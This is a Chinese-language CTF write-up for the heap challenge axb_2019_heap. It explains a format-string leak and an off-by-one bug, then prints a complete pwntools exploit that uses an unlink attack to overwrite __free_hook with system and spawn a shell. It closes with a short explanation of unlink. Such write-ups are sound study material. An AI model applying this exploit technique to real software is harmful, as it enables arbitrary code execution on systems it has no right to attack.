







# axb_2019_heap

这里我们先用常规的方法看看保护和ida



这里可以知道他的保护是全开的那我们擦看ida的源代码



从这里我们看到了要给正常的一个菜单题但是发现了一个banner函数



这里很明显有着要给格式化字符串



从这里我们可以明白一个点就是如果需要写入数据的话那么这个chunk的大小要大于0x80是的它可以写入数据并且他只能写入0-10个chunk但是也是够了



从这里我们可以明确知道这里绝对没有uaf漏洞



在这里我们看到了一个修改快并且发现了一个get_input函数



在这里发现了一个offbyone的漏洞因此我们就会出现

因此我们这里就对整个文件分析完了这里我们就可以使用格式化字符串的方式来获得pie和libc的基址并且我们使用unlink来进行攻击

因此我们可以编写exp

```py
from pwn import *
context.log_level='debug'
io = process("/home/fofa/axb_2019_heap")
# io = remote("node5.buuoj.cn",28330)
libc = ELF("/home/fofa/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6")

def add(idx, size, content):
    io.sendlineafter('>>', '1')
    io.sendlineafter('):', str(idx))
    io.sendlineafter('size:', str(size))
    io.sendlineafter('content:', content)


def delete(idx):
    io.sendlineafter('>>', '2')
    io.sendlineafter('index:', str(idx))


def edit(idx, content):
    io.sendlineafter('>>', '4')
    io.sendlineafter('index:', str(idx))
    io.sendlineafter('content: \n', content)


def show():
    io.sendlineafter('>>', '3')
# gdb.attach(io,'b *$rebase(0xB2C)')
io.recvuntil('name: ')
io.sendline('%11$p%15$p')
io.recvuntil('Hello, ')
base = int(io.recv(14),16)-0x1186
libc_base = int(io.recv(14),16)-libc.sym['__libc_start_main']-0xf0
info("base "+hex(base))
info("libc "+hex(libc_base))

free_hook=libc_base+libc.sym['__free_hook']
system=libc_base+libc.sym['system']

bss = base + 0x202060
info('bss'+hex(bss))

add(0,0x98,'aaaa')
add(1,0x98,'cccc')
add(2,0x90,'cccc')#2
add(3,0x90,'/bin/sh\x00')#3

payload=p64(0)+p64(0x91)+p64(bss-0x18)+p64(bss-0x10)+p64(0)*14+p64(0x90)+b'\xa0'
# payload=p64(0)+p64(0x91)+p64(bss-0x18)+p64(bss-0x10)+p64(0)*14+p64(0x90)+'\xa0'

edit(0,payload)
delete(1)
gdb.attach(io)
pause()
edit(0,p64(0)*3+p64(free_hook)+p64(0x10))
edit(0,p64(system))

delete(3)

# gdb.attach(io)


io.interactive()
```

---

## 这里对unlink总结

1、简介:俗称脱链,就是将链表头处的free堆块unsorted bin中脱离出来,然后和物理地址相邻的新free的堆块合并成大堆块(向前合并或者向后合并),再放入到unsorted bin中。

2、危害原理:通过伪造free状态的fake_chunk,伪造fd指针和bk指针,通过绕过unlink的检测实现unlink, unlink就会往p所在的位置写入p-0x18,从而实现任意地址写的漏洞。

3、漏洞产生原因：Offbynull、 offbyone、堆溢出,修改了堆块的使用标志位